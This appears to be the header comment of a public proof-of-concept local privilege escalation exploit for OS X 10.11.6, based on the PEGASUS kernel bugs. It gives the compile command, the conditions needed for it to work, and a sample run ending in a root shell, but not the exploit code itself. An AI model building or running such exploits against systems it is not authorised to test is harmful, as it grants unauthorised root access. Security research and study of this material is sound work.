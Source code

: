  * Local privilege escalation for OS X 10.11.6 via PEGASUS

 * by Min(Spark) Zheng @ Team OverSky (twitter@SparkZheng weibo@蒸米spark)

 * Note: 1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS). 
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.

 
 * Compile:
 
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:

    MacBookPro:PEGASUS zhengmin$ ./exp 
    *********************************************************************
    Local privilege escalation for OS X 10.11.6 via PEGASUS 
    by Min(Spark) Zheng @ Team OverSky (twitter: @SparkZheng)
    *********************************************************************
    getting kslide...
    kslide=0x8e00000
    building the rop chain...
    exploit the kernel...
    sh-3.2# whoami
    root
    sh-3.2# uname -a
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64


 * Special Thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference: 1. http://blog.pangu.io/cve-2016-4655/
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/
              4. https://github.com/kpwn/tpwn
 
